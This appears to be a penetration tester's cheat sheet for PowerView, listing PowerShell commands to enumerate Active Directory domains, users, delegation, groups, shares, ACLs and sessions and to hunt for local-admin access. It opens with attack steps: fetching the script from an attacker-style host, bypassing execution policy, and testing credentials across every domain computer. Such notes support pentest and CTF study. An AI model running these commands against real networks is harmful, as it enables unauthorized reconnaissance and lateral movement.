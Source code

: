 https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

![[powerview.png]]

>PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows net commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.
>
>It also implements various useful metafunctions, including some custom-written user-hunting functions which will identify where on the network specific users are logged into. It can also check which machines on the domain the current user has local administrator access on. Several functions for the enumeration and abuse of domain trusts also exist. See function descriptions for appropriate usage and available options. For detailed output of underlying functionality, pass the -Verbose or -Debug flags.
>
For functions that enumerate multiple machines, pass the -Verbose flag to get a progress status as each host is enumerated. Most of the "meta" functions accept an array of hosts from the pipeline.

```powershell
Invoke-WebRequest -Uri http://10.10.14.8:8000/PowerView.ps1 -OutFile PowerView.ps1

powershell -ep bypass

. ./PowerView.ps1
Import-Module .\PowerView.ps1

menu

//  Create Credential Object
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("fakedomain\user", $passwd)

// Gather List of all workstations on domain and store in variable
$comps = Get-NetComputer -Domain msp.local -Credential $creds

// Attempt to issue a command on each machine - any results indicate local admin on that machine
Invoke-Command -ScriptBlock{hostname} -Computer ($comps.dnshostName) -Credential $creds -ErrorAction SilentlyContinue
```

Assuming that latest PowerView script (master and dev are the same) has been loaded in memory.

### Domain Enumeration
Get basic information of the domain
```powershell
Get-Domain
```

Get domain SID
```powershell
Get-DomainSID
```

Get domain policies
```powershell
Get-DomainPolicy [-Domain <target>]
```

Get domain Kerberos policy
```powershell
(Get-DomainPolicy).KerberosPolicy
```

Get list of DCs
```powershell
Get-DomainController [-Domain <target>]
```

Get DC IP
```powershell
nslookup <target_dc>
```

### Forest Enumeration
Get current forest
```powershell
Get-Forest
```

Get a list of domains
```powershell
Get-ForestDomain [-Forest <target>]
```

#### User Enumeration
Get a list of users
```powershell
Get-NetUser [-Domain <target>] [user_name]
```

```powershell
net user /domain
```

Get a count of users
```powershell
(Get-NetUser).count
```

Get a list of users with some specific properties
```powershell
Get-NetUser [-Properties <>] 
```

Get a list of users with their logon counts, bad password attempts where attempts are greater than 0
```powershell
Get-NetUser | select cn, logoncounts, badpwdcount | ? {$_.badpwdcount -gt 0}
```

Finding users with SPN
```powershell
Get-NetUser -SPN
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetUser -TrustedToAuth
```

Finding users who can be delegated
```powershell
Get-NetUser -AllowDelegation
```
### Computer Enumeration
Get a list of computers
```powershell
Get-NetComputer [-Domain <target>] [-OperatingSystem "*2016*"] [-Properties <>]
```

Get a list of computers with Unconstrained delegation
```powershell
Get-NetComputer -Unconstrained
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetComputer -TrustedToAuth
```
### Group Enumeration
Get a list of groups in a domain
```powershell
net group /domain
```

Get a list of groups in a domain
```powershell
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']
```

Get group membership
```powershell
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]
```
### Share Enumeration
List shares user have access to
```powershell
Invoke-ShareFinder -CheckShareAccess -ErrorAction SilentlyContinue [-ComputerDomain <target_domain>]
```
### ACL Enumeration
Get resolved ACEs, optionally for a specific user/group and domain
```powershell
Get-ObjectAcl [-Identity <user_name>] [-Domain <target_domain>] -ResolveGUIDs
```

Get interesting resolved ACLs
```powershell
Invoke-ACLScanner [-Domain <target_domain>] -ResolveGUIDS
```

Get interesting resolved ACLs owned by specific object (ex. noobsec)
```powershell
Invoke-ACLScanner -ResolveGUIDS \| ?{$_.IdentityReference -match 'noobsec'}
```
### Session Enumeration
Finding sessions on a computer
```powershell
Get-NetSession [-Computer <comp_name>]
```

Get who is logged on locally where
```powershell
Get-LoggedOnLocal [-ComputerName <comp_name>]
```
### User Hunting
Get list of machines where current user has local admin access
```powershell
Find-LocalAdminAccess [-Domain <target_domain>]
```

Find machines where members of specific groups have sessions. Default: Domain Admins
```powershell
Invoke-UserHunter [-GroupName <group_name>]
```

Find machines where current user has local admin access AND specific group sessions are present
```powershell
Invoke-UserHunter -CheckAccess
```
